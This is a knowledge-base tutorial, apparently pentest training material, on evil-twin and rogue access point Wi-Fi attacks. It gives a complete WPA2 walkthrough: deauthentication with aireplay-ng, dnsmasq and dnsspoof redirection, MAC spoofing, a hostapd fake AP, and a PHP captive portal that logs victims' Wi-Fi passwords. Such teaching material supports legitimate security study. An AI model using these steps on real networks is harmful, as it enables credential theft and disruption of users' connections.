


---
tags:
  - knowledge-base
  - evil-twin
  - rogue-ap
  - dnsmasq
  - airmon-ng
  - aireplay-ng
  - airodump-ng
  - wpa
  - dnsspoof
  - apache
category: wifi
---
# Overview

## Rogue Access Points

A rogue access point is a wireless access point that imitates a legitimate one and is set up without the explicit authorization of the network administrator. It can be deployed either by a well-meaning employee or a malicious attacker, potentially posing significant security risks to the network.

Rogue access points can be categorized into two types:

1. `Wired Rogue Access Points`: These are unauthorized access points connected directly to the secure internal network, often posing a serious security threat as they provide a backdoor into the network.



2. `External Rogue Access Points`: These are unauthorized access points not connected to the secure network. If one is found to be malicious or a potential risk—such as attracting or having already connected secure network wireless clients, it is classified as a rogue access point of the second kind, commonly referred to as an evil twin.



## 802.11 Roaming

The [802.11 protocol](https://en.wikipedia.org/wiki/Service_set_\(802.11_network\)) enables client devices (stations) to seamlessly roam between access points (APs) within the same [Extended Service Set (ESS)](https://en.wikipedia.org/wiki/Service_set_\(802.11_network\)#Extended_service_set). However, the standard does not define specific criteria for selecting an AP when multiple options are available within the ESS. Typically, client devices are designed to choose the access point offering the best connection. This decision is usually based on factors such as signal strength, throughput, and signal-to-noise ratio. Similar to automatic network selection, client devices rely on the ESSID field in beacon frames to identify which nearby access points belong to their current ESS.

### Abusing 802.11 Roaming

The 802.11 roaming process can be exploited by creating a rogue access point (AP) that uses the same ESSID as the target network. By offering a stronger signal than the legitimate access points, we can cause client devices connected to the target network to roam to our rogue AP. This can be achieved through one of two methods:

1. `Enticement`: Providing a stronger signal than the target access point to entice client devices to voluntarily connect to the rogue AP created by attacker.
2. `Coercion`: Forcing client devices to disconnect from the target access point using techniques like de-authentication packets, jamming, or other denial-of-service (DoS) attacks. This compels the devices to roam to the rogue AP created by attacker.

Both methods allow an attacker to intercept and manipulate the communication of client devices as they connect to the rogue access point.

## How Does an Evil Twin Attack Work

1. `Fake Access Point Setup`: The attacker sets up a rogue access point (AP) mimicking the legitimate network by using the same SSID.
2. `De-authentication and User Connection`: The attacker broadcasts de-authentication packets to force clients off the real network, compelling them to reconnect to the open rogue AP.
3. `Traffic Monitoring and Captive Portals`: Once connected to the rogue AP, the attacker may block internet access and redirect users to a fake captive portal. The captive portal mimics a legitimate login page, tricking users into providing their network credentials.

For `WPA-PSK` networks, evil twin attacks are generally more effective. The attacker typically begins by creating a rogue access point (AP) with the same name as the legitimate one but configured as an `open` network instead of using WPA2 authentication. To force clients to disconnect from the real AP, the attacker sends deauthentication packets, prompting users to manually select another Wi-Fi network. When clients connect to the rogue AP, their internet traffic is blocked, and users are redirected to a fake captive portal created by the attacker to steal their credentials.

`WPA3` networks offer enhanced protection against deauthentication attacks due to the use of [PMF (Protected Management Frames)](https://www.wi-fi.org/beacon/philipp-ebbecke/protected-management-frames-enhance-wi-fi-network-security) protection. Even though an attacker can set up a rogue AP with the same name as the legitimate one and configure it as an `open` network, they cannot effectively perform deauthentication attacks to force client disconnections. However, evil twin attacks against WPA3 remain feasible through `collision events` that create Denial of Service (DoS) conditions. In this approach, the attacker creates a rogue AP with the same name (ESSID) and BSSID as the legitimate AP, configured with a fake password and WPA2 authentication using mana-loud (we'll cover the mana attack later). This setup creates a collision where clients are unable to connect to either AP, causing a denial-of-service condition. The attacker can then deploy an open rogue AP with the same name, enticing clients to connect and exposing them to potential credential theft.

Evil twin attacks on `WPA Enterprise` networks differ from those on WPA2 or WPA3 networks. Unlike PSK-based networks, where all users share a common passphrase, WPA Enterprise assigns each user unique credentials. To carry out the attack, an attacker sets up a rogue enterprise AP configured with a `RADIUS` server that accepts all authentication requests, regardless of validity. The rogue AP uses the same SSID as the legitimate one to trick users into connecting. When users connect using challenge-response methods such as CHAP, MSCHAP, or MSCHAPv2, their authentication hashes can be captured. These hashes can either be brute-forced locally to reveal the credentials or relayed in a PEAP attack to authenticate directly with the legitimate AP. If users connect using plain-text methods like GTC, their credentials are immediately exposed in clear text.

# Evil-Twin Against WPA2

The evil twin attack on WPA2 involves creating a rogue access point (AP) that mimics a legitimate one, tricking unsuspecting clients into connecting to it. The primary difference here is that the identical rogue access point is an `open` network. Once connected, the attacker can intercept sensitive data or perform further exploitation, such as phishing for credentials using captive portals or executing man-in-the-middle (MITM) attacks.

Unlike automated tools, a manual evil-twin attack gives attackers fine-grained control over every stage of the process, from crafting the fake AP to managing connected clients. This approach provides a deeper understanding of the mechanisms and allows customization to bypass security measures configured by clients.

The following steps are needed to complete the evil-twin attack:

1. `Monitor the target & capture valid WPA handshake` : The first step is to perform reconnaissance on the target network to gather critical details such as the network name (SSID), BSSID, authentication type, and other relevant information. Once this data is collected, we use airodump-ng to capture a valid handshake. This handshake will later be used to validate the network credentials during the attack process.
2. `Configure the routing` : The next step is to configure routing correctly, along with setting up the DNS and DHCP servers for the fake access point. These services will assign IP addresses to connected clients and handle their network requests, ensuring seamless connectivity that mimics the legitimate access point. Additionally, configure the wireless interface hosting the fake access point with an appropriate IP address and modify its MAC address to closely resemble that of the target access point for added authenticity.
3. `Setup the captive portal` : The next step is to set up a captive portal that will display a login page to the victim (client). This portal is designed to capture any credentials entered by the victim, allowing us to collect the necessary authentication details for further exploitation.
4. `Spin up the fake access point` : Next, we launch the fake open access point using `hostapd`, ensuring it has a network name (ESSID) identical to the target and a BSSID that closely resembles the target's. This enhances the illusion of legitimacy, increasing the chances of the victim connecting to this rogue access point.
5. `Capture & Validate the credentials` : Finally, once the victim connects to the fake access point and enters their login credentials through the captive portal, we capture these credentials. We then validate them against the real target network to ensure their authenticity. This step confirms that the obtained credentials are correct and can be used for further exploitation or access to the target network.

To ensure a successful setup, we need at least two wireless interfaces that support monitor mode and packet injection. These can be either two 2.4 GHz interfaces, two 5 GHz interfaces, or one of each, depending on the target network. The reason for this is that hosting the fake access point is resource-intensive for the wireless card, and we still need to perform monitoring and deauthentication/disassociation attacks. Therefore, we dedicate one card to host the fake AP (e.g., `wlan1`) and the other to monitor the network and handle deauthentication/disassociation (e.g., `wlan0`). This setup ensures that both tasks can be performed simultaneously without overloading a single interface.

## The Attack

### Monitor and Capture Handshake

First, we need to set our interface to monitor mode using `airmon-ng`.

```bash
sudo airmon-ng start wlan0
```

Next, we will use `airodump-ng` to scan for available Wi-Fi networks. To save the scan results for later analysis, we use the `--write` (or `-w`) parameter followed by a filename. This writes the output to a file with the specified prefix, enabling us to efficiently store and review the captured data. We can also provide the `-c` flag to tell it what channel to listen to, if we already know what channel the network is broadcasting on.

```bash
sudo airodump-ng wlan0mon -c 1 -w Evil-Twin
```

Now, we need to deauthenticate the connected client using aireplay-ng. This forces the client to disconnect from the legitimate access point, prompting it to reconnect. During this reconnection process, we can capture a valid WPA handshake, which is essential for validating the network credentials later. We will use `-0` to specify a deauthentication attack along with a count of how many codes to send, as well as `-a` to specify the access point that we want to target, then the interface to use as a positional argument. 

```bash
sudo aireplay-ng -0 5 -a XX:XX:XX:XX:XX:XX wlan0mon
```

We can now look back at the airodump-ng window to see if the attack worked. This is evident by the increase in lost packets and frames count under a given client.

### Configure the Routing

The next step is to configure routing by setting up the DNS and DHCP servers for the fake access point. These services will assign IP addresses to connected clients and handle their network requests, ensuring seamless connectivity that mimics the legitimate access point.

To configure the routing correctly, we need to follow these steps:
- `Set up DNS and DHCP for the fake network` : Configure DNS and DHCP services for the rogue access point, ensuring clients receive valid IP addresses and can resolve domain names.
- `Assign a valid IP address to the wireless interface` : Configure the wireless interface hosting the fake access point (e.g., wlan1) with a proper IP address to ensure proper routing.
- `Modify the MAC address of the wireless interface` : Change the MAC address of the wlan1 interface to closely resemble that of the target access point. This helps make the fake AP appear more legitimate to connected clients.

We can use `dnsmasq` to configure DNS and DHCP for the `wlan1` interface. To get started, we need to create a `dns.conf` file with the following contents:

```bash
interface=wlan1
dhcp-range=192.168.0.2,192.168.0.254,255.255.255.0,10h
dhcp-option=3,192.168.0.1
dhcp-option=6,192.168.0.1
server=8.8.4.4
server=8.8.8.8
listen-address=127.0.0.1
address=/#/192.168.0.1
log-dhcp
log-queries
```

In the above config file, we specify many parameters. These parameters can be broken down like the following:

| Item             | Description                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| ---------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Interface`      | The interface which we will be hosting the access point on.                                                                                                                                                                                                                                                                                                                                                                                   |
| `dhcp-range`     | This specifies that the DHCP server will provide IP addresses to connected clients starting from 192.168.0.2 up to 192.168.0.254, and each client will receive a lease for 10 hours. Once the lease time expires, the client will need to request a new IP address.                                                                                                                                                                           |
| `DHCP option 3`  | This option specifies the default gateway for the DHCP clients. In this case, dhcp-option=3,192.168.0.1 tells the clients to use 192.168.0.1 as their gateway, which will be the IP address of the fake access point (wlan1).                                                                                                                                                                                                                 |
| `DHCP option 6`  | This option specifies the DNS server that the DHCP clients should use. By setting dhcp-option=6,192.168.0.1, the clients are directed to use the IP address of the fake AP (192.168.0.1) as their DNS server, instead of any DNS servers provided by the legitimate gateway or the target network. This ensures that DNS queries are handled by the attacker's fake AP, which can be used to intercept, manipulate, or redirect DNS requests. |
| `server`         | This line tells dnsmasq to forward any DNS queries from the connected clients to the public DNS server at 8.8.4.4 & 8.8.8.8.                                                                                                                                                                                                                                                                                                                  |
| `listen-address` | The listen-address option in the dnsmasq configuration file specifies the IP address on which dnsmasq will listen for incoming DNS requests.                                                                                                                                                                                                                                                                                                  |
| `address`        | This line would make dnsmasq return the IP address 192.168.0.1 when clients try to resolve any domain. The # symbol is a wildcard that matches any domain.                                                                                                                                                                                                                                                                                    |
| `log-dhcp`       | The log-dhcp option in dnsmasq enables logging of DHCP (Dynamic Host Configuration Protocol) activity. When this option is activated, dnsmasq will log each DHCP event, such as IP address assignments, leases, and client interactions with the DHCP server.                                                                                                                                                                                 |
| `log-queries`    | The log-queries option in dnsmasq enables logging of all DNS queries made by clients. When this option is activated, dnsmasq will log each DNS request it receives, along with details such as the queried domain, the source IP address of the client, and the response sent back.                                                                                                                                                           |

We can start dnsmasq with the following command:

```bash
sudo dnsmasq -C dns.conf -d
```

If it fails to start, it likely means that another service is already using port 53. In this case, we'll need to identify and stop the process occupying the port. We can do this by running:

```bash
sudo lsof -i :53
```

```bash
sudo systemctl stop <service from above>
```

The next step is to configure the valid IP address for the interface that will host the fake access point (`wlan1`).

```bash
sudo ifconfig wlan1 192.168.0.1/24
ifconfig wlan1
```

Additionally, we need to ensure that IP forwarding is enabled on the machine to allow proper routing of traffic between the fake access point and the internet. We can do this by running:

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward > /dev/null
```

Next, we will change the MAC address of the `wlan1` interface to closely resemble that of the legitimate access point. This can be done using the `macchanger` tool.

We won't make the MAC address identical, but instead, we'll make it very similar. For example, if the real MAC address is `D4:C1:8B:79:AD:45`, we can change it to `D4:C1:8B:79:AD:44` (noticing the change from 45 to 44). This subtle modification helps the fake AP appear more legitimate while maintaining its distinct identity.

```bash
sudo ifconfig wlan1 down
sudo macchanger -m D4:C1:8B:79:AD:44 wlan1
sudo ifconfig wlan1 up
```

Lastly, we start `dnsspoof` on the `wlan1` interface to redirect all traffic from the victim's device to our attacker's IP address. This step allows us to intercept and monitor the client's communications.

```bash
sudo dnsspoof -i wlan1
```

### Setup the Captive Portal

For our manual Evil-Twin attack setup, we will use an Apache server with PHP to capture credentials. This setup provides flexibility, allowing us to easily switch between different templates for our attack. Additionally, by utilizing the Apache rewrite engine and redirecting all traffic to our web server, we can ensure that users are prompted to log in to our network. The goal is to lure users into clicking the sign-in prompt, which will direct them to our captive portal, where their credentials can be captured.

We install the necessary tools required to host a captive portal using following command:

```bash
sudo apt-get install apache2 php libapache2-mod-php
```

Then we want to activate the rewrite engine for Apache

```bash
sudo a2enmod rewrite
```

Then we need to change part of our apache configuration file located at `/etc/apache2/apache2.conf` to allow overrides. We replace `AllowOverride none` with `AllowOverride all` for our relevant directories. For Apache2 we will be using the default `/var/www/html` directory for our captive portal.

We change a portion of the configuration file to have the following.

Original Apache Config

```config
<Directory />
	Options FollowSymLinks
	AllowOverride None
	Require all denied
</Directory>
<Directory /var/www/>
	Options Indexes FollowSymLinks
	AllowOverride None 
	Require all granted
</Directory>
```

Modified Apache Config

```config
...
<Directory />
	Options FollowSymLinks
	AllowOverride All
	Require all denied
</Directory>
<Directory /var/www/>
	Options Indexes FollowSymLinks
	AllowOverride All
	Require all granted
</Directory>
...
```

At this point we need to setup an `.htaccess` file. This defines rules for our web server, that notifies stations connected to our fake AP that they need to sign in through the captive portal. We do so in the `/var/www/html` directory.

```config
RewriteEngine on
RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond %{REQUEST_FILENAME} !-f
RewriteRule . index.html [L]
```

Then we save the .htaccess file and restart apache2.

```bash
sudo service apache2 restart
```

If a user enters their password a POST request is sent to `received.php` which consists of the following

```php
<?php
if(isset($_POST['submit'])) {
    $password = $_POST['password'];

    $data = $password . "\r\n";
    $ret = file_put_contents('passes.lst', $data, FILE_APPEND | LOCK_EX);
    if($ret === false) {
        die('An error has occurred');
    }
    else {
        echo "Thank you for signing in. You will be redirected shortly!";
    }
}
else {
   die('No post data to process');
}
?>
```

The `received.php` file simply takes the user input and writes it to `passes.lst`, our dictionary. We will be using this dictionary later in order to validate the captured pre-shared keys against the handshake with CowPatty. 

> [!INFO] When testing this form, if an error message is displayed by received.php, it is commonly a permissions issue, which can be resolved with the following command.

```bash
sudo chown -R www-data:www-data /var/www/html/passes.lst
```

### Spin Up Fake Access Point

To set up our rogue access point, we use the following configuration file and save it as `hostapd.conf`:

```config
interface=wlan1
hw_mode=g
ssid=TARGET_SSID
channel=1
driver=nl80211
```

Once the configuration file is ready, we launch the rogue access point using `hostapd`:

```bash
sudo hostapd ./hostapd.conf
```

Initially, we can wait for clients to connect to our rogue access point (AP) naturally. However, if no connections occur after a reasonable amount of time, we can forcefully encourage clients to connect by performing a deauthentication attack against the legitimate AP. This attack disconnects clients from the legitimate network, making them more likely to connect to our rogue AP.

To execute a deauthentication attack, we can use aireplay-ng:

```bash
aireplay-ng -0 5 -a D4:C1:8B:79:AD:45 wlan0mon
```

Once a client connects to our rogue AP, the `hostapd` output should show that a client authenticated and associated to our access point.

Additionally, we should observe a DHCP request from the client for an IP address in the `dnsmasq` tab, confirming that the client is attempting to communicate through the rogue access point.

### Capture and Validate the Credentials

After a client successfully connects, they will be redirected to our fake captive portal and if the client enters their password, the credentials will be captured and saved in the `passes.lst` file.

After the victim enters the correct password in the captive portal, we can enable internet access for them by configuring the iptables firewall rules. This step is crucial to avoid raising suspicion and maintain the connection.

```bash
sudo iptables --append POSTROUTING --table nat --out-interface eth0 -j MASQUERADE
sudo iptables --append FORWARD --in-interface wlan1 -j ACCEPT
```

- The first rule enables NAT masquerading, allowing traffic from the rogue AP to route through the attacker's internet-connected interface (eth0).
- The second rule accepts traffic from the rogue AP interface (wlan1), allowing clients to communicate with external networks.

The success of this evil twin attack depends on the following key factors:

- `Signal Dominance`: Ensure the rogue AP consistently provides a stronger signal to maintain the client's connection.
- `Captive Portal Realism`: The success of the attack depends on the captive portal's design. It must convincingly imitate the legitimate login page.
- `Credential Validation`: Ensure that only valid credentials are used, avoiding detection from repeated incorrect login attempts.

